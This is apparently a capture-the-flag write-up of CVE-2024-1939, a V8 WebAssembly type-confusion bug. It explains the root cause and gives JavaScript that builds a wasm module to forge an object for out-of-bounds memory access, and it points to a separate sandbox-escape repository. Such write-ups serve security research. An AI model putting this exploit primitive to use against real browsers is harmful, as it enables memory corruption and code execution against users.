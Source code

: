 # CVE-2024-1939

This is a short writeup for the CVE-2024-1939, which I used to claim V8CTF M122.

The root cause of this issue is the lack of support for kWasmS128 in wasm-to-js conversion. Specifically, wasmS128Const operations occurring in parameter stacks are ignored, leading to type confusion when an ExprRef is present in the parameters.

In details, this will cause an int/float to be directly converted to an object. So it is easy to construct a fake array with arb length which will give us the ability of oob read and write. There is still one obstacle to bypass: The wasmS128Const will only take place of float type params that stores in FPSlot and will not influence the tagged params which stores in GPSlot. The ways exists in StackSlot. The FP/GP Regs has size limits. After that the params will be stored in StackSlot with order. If we fill the regs and put a float number on StackSlot, the tagged param will be parsed from StackSlot and give us our faked object.

The final exp will not include the builder of this wasm moudle for simpilicity and speed, so i will attach it here.

```js
function get_corrupt(addr) {
    var buf = new ArrayBuffer(8);
    var u32 = new Uint32Array(buf);
    var f64 = new Float64Array(buf);
    var u8 = new Uint8Array(buf);
    u32[0] = addr;
    u32[1] = 0;
    const builder = new WasmModuleBuilder();
    const typeId = builder.addType(makeSig([kWasmS128, kWasmF64, kWasmF64, kWasmF64, kWasmF64, kWasmF64, kWasmF64, kWasmI64, kWasmI64, kWasmI64,kWasmI64,kWasmI64,kWasmI31Ref,kWasmFuncRef], []));
    const importId = builder.addImport('mod', 'foo', typeId);
    builder.addDeclarativeElementSegment([importId]);

    builder.addFunction('main', kSig_v_v)
        .addLocals(wasmRefType(kWasmI31Ref), 1)
        .addBody([
            ...wasmS128Const(0xdeadbeef, 0xdeadbeef),
            ...wasmF64Const(1.1),
            ...wasmF64Const(1.1),
            ...wasmF64Const(1.1),
            ...wasmF64Const(1.1),
            ...wasmF64Const(1.1),
            ...wasmF64Const(f64[0]),
            ...wasmI64Const(0xbbbbbbbb),
            ...wasmI64Const(0xbbbbbbbb),
            ...wasmI64Const(0xbbbbbbbb),
            ...wasmI64Const(0xbbbbbbbb),
            ...wasmI64Const(0xbbbbbbbb),
            
            ...wasmI32Const(0xaaaaaaaa),
            kGCPrefix, kExprRefI31, kExprLocalTee, 0,
            kExprRefFunc, importId,
            kExprRefFunc, importId,
            kExprCallRef, typeId,
        ]).exportFunc();
    const instance = builder.instantiate({ mod: { foo: ff } });
    let f = instance.exports.main
    f();
}
get_corrupt(addr);
```

A worker is utilized to stabilize the memory, as it has been observed that addresses remain relatively stable in worker threads.

For sandbox bypasses, see [V8-Sandbox-Escape-via-Regexp](https://github.com/rycbar77/V8-Sandbox-Escape-via-Regexp). The final exploit uses normal orw chains to write the flag through stderr.